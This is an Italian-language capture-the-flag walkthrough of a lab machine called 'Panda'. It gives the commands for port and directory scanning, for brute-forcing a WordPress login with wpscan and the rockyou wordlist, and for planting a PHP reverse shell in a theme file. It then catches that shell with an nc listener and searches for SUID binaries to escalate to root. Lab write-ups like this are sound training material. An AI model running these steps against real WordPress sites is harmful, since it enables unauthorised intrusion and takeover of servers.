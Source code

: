 # PANDA

partiamo con lo scan delle porte

## ENUMERAZIONE

```bash
nmap panda.thm -sV -sC 
```

ottimo abbiamo la porta 80 aperta quindi una pagina web andiamo a controllarla

nulla di interessante solo un immagine

facciamo una ricerca delle directory

```bash
gobuster dir -u http://panda.thm/ -w /usr/share/wordlists/dirb/big.txt
```

interessante abbiamo la directory con  /Wordpress

guardiamo cosa c'è
```bash
http://panda.thm/wordpress
```
se c'è un pagina wordpress c'è un login quasi il 99% delle volte se non il 100%

controlliamo 
```bash
http://panda.thm/wordpress/wp-login.php
```


facciamo uno scan insieme al brute force con WPSCAN
```bash
wpscan --url http://panda.thm/wordpress/wp-login.php --passwords /usr/share/wordlists/rockyou.txt
```

ecco qua il nostro utente po

accediamo alla pagina
## REVERSE SHELL
### spiegazione
per chi avesse già esperienza con wordpress saltare questa spiegazione invece per chi non avesse mai visto questo CMS ci sono delle fasi che dovete imparare
wordpress lavora principalmente a pagine sotto pagine e temi molti di quest'ultimi sono vulnerabili perchè vanno ad aggiungere codice che potrebbe non essere controllato o che può avere insicurezze del codice 
quello che andrò a fare nei passaggi successivi userà un vulnerabilità del non controllo del codice.


su word press per andare a modificare i vari path del cms c'è un menu a tendina sulla destra. apritelo e andate nella sezione APPARENCE, una volta fatto click vi si dovrebbe aprire un sotto menu con varie opzioni.
andate a selezionare editor e successivamente vi si apre un menu sulla pagina (sulla destra), andate in questo menu e selezionate la sezione comment.php.
tramite questa sezione vi si apre un editor a schermo di questa pagina cancellate qualsiasi cosa ci sia scritta sopra, in modo da rendere la pagina vuota e aggiungete una reverse shell (vi consiglio https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
ricordate di cambiare nel php questi valori 
```bash
$ip = '127.0.0.1';  // CHANGE THIS 
$port = 1234;       // CHANGE THIS
```
mettete il vostro ip e la vostra porta dove ascolterete il traffico.

salvate questa pagina con l'apposito tasto.


ora avviamo l'ascolto sulla nostra macchina.
```bash
nc -lvnp porta scelta nel php
es. nc -lvnp 1234
```
ora tutto è pronto.

chiamiamo il nostro php tramite url (provate ad indovinare qual'è l'url) (hint: ricordatevi dove avete salvato il php)

ecco qua che si avvia la nostra shell con l'utente shifu facciamo privesc
## PRIVILEGE ESCALATION

```bash
find / -perm -4000 2>/dev/null
```

interessante abbiamo una vulnerabilità di tipo suid su find controllate GTFO.BINS per avere i privilegi di root




